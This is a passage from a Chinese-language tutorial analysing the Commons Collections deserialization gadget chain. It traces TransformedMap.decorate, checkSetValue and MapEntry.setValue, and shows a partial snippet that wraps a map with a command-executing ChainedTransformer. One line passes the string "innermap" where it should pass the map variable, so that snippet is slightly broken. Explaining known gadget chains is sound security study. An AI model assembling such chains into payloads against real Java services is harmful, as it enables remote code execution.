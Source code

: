 现在我们就需要去找到一个可用调用ChainedTransformer对象,触发其transform方法的地方了

看到TransformedMap类这里的checkSetValue方法

```
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

看看valueTransformer的构造函数

![image-20211130180926320](images/3.png)

看来是可控的,但是仔细一看这个构造函数是protected,那应该是可以在类中回调的

不过在这个类里面还有另外一个方法

```
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

修饰了应该Map对象,第一个参数是要修饰的Map对象,后面两个参数是Transformer接口的类的对象

然后直接new一个TransformedMap对象,这里可以直接这样传参进去

```
Map innermap = new HashMap();//创建一个Map对象,因为Map没有序列化接口,所以需要用到他的实现类Hashmap
innermap.put("value","key");//向里面传值,后面会提到为什么会有这一步
Map outmap = TransformedMap.decorate("innermap",null,chain);//调用静态decorate方法,把我们前面能够命令执行的gadget放进去,也就是chain作为参数传进去
```

这里能够调用TransformedMap的构造方法了,值也控制了,但是还要去找到触发checkSetValue的点

看看有哪些地方调用了这个方法

![image-20211201130756300](images/4.png)

看到只有一个setValue方法里面调用了这个checkSetValue方法

```
static class MapEntry extends AbstractMapEntryDecorator {

    /** The parent map */
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```
